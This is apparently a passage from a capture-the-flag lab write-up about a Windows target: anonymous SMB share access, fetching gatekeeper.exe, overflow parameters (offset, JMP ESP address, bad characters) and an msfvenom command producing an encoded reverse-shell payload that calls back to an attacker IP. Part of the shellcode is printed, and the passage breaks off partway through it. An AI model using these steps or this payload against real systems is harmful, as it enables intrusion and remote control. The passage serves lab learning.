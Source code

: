 Using `smbclient` to access the `Users` share anonymously:

    smbclient \\\\$MACHINE_IP\\Users

    Enter WORKGROUP\root's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                  DR        0  Thu May 14 21:57:08 2020
      ..                                 DR        0  Thu May 14 21:57:08 2020
      Default                           DHR        0  Tue Jul 14 03:07:31 2009
      desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
      Share                               D        0  Thu May 14 21:58:07 2020
                      7863807 blocks of size 4096. 3876715 blocks available

    smb: \> cd Share
    smb: \Share\> ls
      .                                   D        0  Thu May 14 21:58:07 2020
      ..                                  D        0  Thu May 14 21:58:07 2020
      gatekeeper.exe                      A    13312  Mon Apr 20 01:27:17 2020
    
                    7863807 blocks of size 4096. 3876715 blocks available

Getting the `gatekeeper.exe` file:

    smb: \Share\> get gatekeeper.exe
    getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (5.1 KiloBytes/sec) (average 5.1 KiloBytes/sec)

Start a web server on the Kali VM in the directory with the files (to download the files to the Windows VM):

    python3 -m http.server

## Exploiting buffer overflow

Get the binary file from the Kali box and follow the [stack-based buffer overflow howto](../prep/overflow1.md) 
for creating BoF scripts, with:

    Offset: 146
    JMP ESP address: 080414C3
    Bad characters: 00, 0a

Generate payload with `msfvenom` (`tun0` IP address of KALI on the THM network):

    # msfvenom -p windows/shell_reverse_tcp LHOST=10.18.22.77 LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of c file: 1506 bytes
    unsigned char buf[] = 
    "\xda\xcf\xd9\x74\x24\xf4\xb8\x4e\x9a\xa4\x81\x5a\x33\xc9"
    "\xb1\x52\x83\xc2\x04\x31\x42\x13\x03\x0c\x89\x46\x74\x6c"
    "\x45\x04\x77\x8c\x96\x69\xf1\x69\xa7\xa9\x65\xfa\x98\x19"
    "\xed\xae\x14\xd1\xa3\x5a\xae\x97\x6b\x6d\x07\x1d\x4a\x40"
    "\x98\x0e\xae\xc3\x1a\x4d\xe3\x23\x22\x9e\xf6\x22\x63\xc3"
    "\xfb\x76\x3c\x8f\xae\x66\x49\xc5\x72\x0d\x01\xcb\xf2\xf2"
    "\xd2\xea\xd3\xa5\x69\xb5\xf3\x44\xbd\xcd\xbd\x5e\xa2\xe8"
    "\x74\xd5\x10\x86\x86\x3f\x69\x67\x24\x7e\x45\x9a\x34\x47"
    "\x62\x45\x43\xb1\x90\xf8\x54\x06\xea\x26\xd0\x9c\x4c\xac"
    "\x42\x78\x6c\x61\x14\x0b\x62\xce\x52\x53\x67\xd1\xb7\xe8"
